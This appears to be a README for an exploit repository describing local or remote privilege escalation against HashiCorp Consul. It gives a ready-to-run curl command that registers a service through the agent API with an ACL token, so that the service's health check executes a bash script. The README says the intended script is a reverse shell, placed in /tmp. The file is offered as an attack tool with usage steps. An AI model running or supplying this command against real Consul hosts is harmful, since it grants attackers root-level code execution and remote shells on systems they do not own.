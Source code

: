 # Hashicorp-Consul-Privilege-Escalation-via-Services-API_ACL-Token
Local or remote privilege escalation for Hashicorp Consul via Services API & ACL Token

Shell command that can be run locally to perform privilege escalation on a vulnerable Linux target if not accessible remotely for one reason or another (Firewall Rule, Only running locally). It could also be used remotely, but there's better exploits out there such as metasploit to do that... but it can be done.

How-To: 

1.There is a shell.sh file included that contains a reverse bash shell that can be modified, or, replace the command all together with your own. Place or create your own shell.sh in (recomended) /tmp directory. 

2. Run the following command:

curl --header "X-Consul-Token: #<REPLACE_WITH_YOUR_ACL_TOKEN_HERE>#" --request PUT -d '{"ID": "LPE", "Name": "LPE", "Address": "127.0.0.1", "Port": 80, "check": {"Args": ["/bin/bash", "/tmp/bash_shell.sh"], "interval": "30s", "timeout": "100000s"}}' http://127.0.0.1:8500/v1/agent/service/register

Prerequisites: Hashicorp Consul running, Knowledge of or way to obtain a valid ACL Token.

 
